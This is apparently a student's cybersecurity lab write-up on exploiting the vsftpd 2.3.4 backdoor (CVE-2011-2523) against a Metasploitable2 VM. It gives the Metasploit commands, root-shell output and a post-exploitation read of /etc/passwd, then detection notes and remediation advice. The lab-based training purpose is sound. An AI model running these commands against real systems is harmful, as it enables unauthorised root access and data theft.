




# Exercise 03 — Remote Exploitation via Known Backdoor (vsftpd 2.3.4)

**Date:** 06/03/2026
**Category:** Exploitation
**CVE:** CVE-2011-2523
**Tools:** Metasploit Framework v6.4.99
**Attacker:** Kali Linux — 192.168.56.102
**Target:** Metasploitable2 — 192.168.56.103

---

## Objective
Exploit a known backdoor vulnerability in an FTP service to gain 
unauthorised remote access to the target system.

---

## Background
vsftpd 2.3.4 was a widely used FTP server. In July 2011 a malicious 
actor compromised its source code repository and inserted a backdoor — 
if a username containing the string `:)` is sent during login, the 
server silently opens a root command shell on port 6200. This is one 
of the most well-known supply chain attacks in open source history.

---

### Metasploitable2 Setup — Both VMs Running


### Nmap Scan of Metasploitable2 — 22 Open Ports


---

## Commands Run
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.103
run
```

### vsftpd Exploit — Root Shell Obtained


---

## Results
```
[+] 192.168.56.103:21 - Backdoor service has been spawned, handling...
[+] 192.168.56.103:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened
    (192.168.56.102:42007 -> 192.168.56.103:6200)
```

### Post-Exploitation — /etc/passwd Retrieved


---

## Post-Exploitation Findings

- `whoami` → `root` — highest privilege level confirmed
- `hostname` → `metasploitable` — target identity confirmed
- `cat /etc/passwd` → full user account list retrieved — 30+ accounts 
exposed including msfadmin, postgres, mysql, tomcat55

---

## Real-World Relevance
This attack required zero authentication and took under 10 seconds 
from launch to root access. In a real environment this would represent 
a critical severity incident. With root access an attacker could 
exfiltrate all data, install persistent backdoors, pivot to other 
internal systems, or destroy the system entirely.

This exploit is also a supply chain attack — the vulnerability was not 
in the original code but was injected by a malicious actor into the 
source repository. This mirrors modern supply chain threats such as 
the SolarWinds attack of 2020.

---

## How a SOC Analyst Would Detect This
- Anomalous outbound connection on port 6200 — non-standard, should 
never appear in normal traffic
- FTP login attempt with malformed username containing `:)` visible 
in FTP logs
- SIEM alert on new outbound shell session from a server
- Network baseline deviation — server suddenly communicating with 
an internal attacker IP

---

## Recommendation
Immediately patch or replace vsftpd 2.3.4. Block port 6200 at the 
firewall. Implement file integrity monitoring on FTP service binaries 
to detect supply chain tampering. Restrict FTP access to whitelisted 
IPs only.
